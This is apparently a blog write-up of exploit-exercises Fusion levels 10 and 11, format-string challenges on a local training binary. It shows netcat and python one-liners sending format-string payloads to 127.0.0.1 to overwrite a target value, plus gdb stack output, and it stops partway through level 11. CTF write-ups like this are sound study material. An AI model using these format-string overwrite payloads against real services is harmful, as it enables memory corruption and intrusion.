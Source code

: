 # [level10](https://exploit-exercises.com/fusion/level10/)

> About 
>
> Introductory format string level that covers basic expansion.

The level10 binary is listening on port 20010.

We're able to overflow the `output` buffer if we request a very large
format-padding.

~~~
$ nc 127.0.0.1 20010
%1024dAaAa

[ target contains 0x61416141, wanted 0xdea110c8 ]
~~~

And we can thus, modify the value.

~~~
$ python -c "print '%1024d'+'\xc8\x10\xa1\xde'" | nc 127.0.0.1 20010

[ critical hit! :> ]
~~~

![Success!]({{ site-url }}/assets/post_images/fusion_level10_celebration.gif)

* * * 

# [level11](https://exploit-exercises.com/fusion/level11/)

>About
>
>Another warm up level that covers writing arbitrary values to memory.

This time, we're gonna overwrite a global integer, located in the .bss
section.

Using the `%n` formatter, printf will write the number of bytes written
to the string so far into a dereferenced pointer located on the stack. 

Examining the stack in gdb right before the call to printf, we can see
that our input-buffer is the fourth dword from the top of the stack.

~~~
(gdb) break *expand_the_input+110
Breakpoint 1 at 0x804994e: file level11/level11.c, line 15.
(gdb) c
Continuing.
[New process 17095]
[Switching to process 17095]

Breakpoint 1, 0x0804994e in expand_the_input () at level11/level11.c:15
15	level11/level11.c: No such file or directory.
	in level11/level11.c
   0x08049945 <expand_the_input+101>:	8d 85 f8 fe ff ff	lea    eax,[ebp-0x108]
   0x0804994b <expand_the_input+107>:	89 04 24	mov    DWORD PTR [esp],eax
=> 0x0804994e <expand_the_input+110>:	e8 7d ef ff ff	call   0x80488d0 <printf@plt>
(gdb) x/8x $esp
0xbfd282d0:	0xbfd282e0	0x000000ff	0xb78495a0	0xb7863979
0xbfd282e0:	0x41414141	0x42424242	0x43434343	0x0000000a
~~~
